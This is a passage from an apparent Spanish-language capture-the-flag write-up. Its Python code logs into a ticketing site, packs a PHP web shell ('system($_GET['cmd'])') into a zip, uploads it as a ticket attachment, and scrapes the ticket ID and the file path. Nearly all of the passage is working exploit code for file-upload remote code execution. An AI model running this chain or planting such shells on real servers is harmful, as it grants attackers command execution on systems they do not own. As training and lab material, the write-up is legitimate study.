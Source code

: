 ```python3
		'pass': password
	}

	r = s.post(url_login, data=login)

register()
login(username,password)


```
Seguidamente, ejecuta las funciones **makezip** para crear el archivo **.zip** con el  **.php** dentro, y con la función **upload_zip** sube el comprimido.

```python3
def makezip():
	content = "<?php\n\tsystem($_GET['cmd']);\n?>"

	with open("test.php", "w") as file:
		file.write(content)

	zip_name = "test.zip"

	with ZipFile(zip_name, 'w') as zip:
		zip.write("test.php")


def upload_zip():
	data = {"subject": "red",
		"body": "red"
	}

	file_zip = {
		'attachment': ("test.zip",open('test.zip', 'rb'),'application/zip')
	}

	r = s.post(url_uploadf,data=data, files=file_zip)

makezip()
upload_zip()
```
Con el comprimido ya subido, ejecuta la función **get_tickit**, obtieniendo el **ID** del ticket mediante expresiones regulares. Luego, con la función **get_zip**, accede a la **URL** con el ID previamente obtenido para conseguir el nombre del comprimido, nuevamente utilizando expresiones regulares.

```python3
def get_tickid():
	r = s.get(url_tickid)

	tick_id = re.findall("<div class='col-2 center-text'>(.*?)</div>",r.text)[0]

	return tick_id

def get_zip(tick_id):
	url_zip = main_url + f"/?page=ticket&id={tick_id}"

	r = s.get(url_zip)

	zip_file = re.findall("href=\"../(.*?)\"><img src=\"/assets/img/zip-icon.png",r.text)[0]

	return zip_file

tick_id = get_tickid()
zip_file = get_zip(tick_id)
```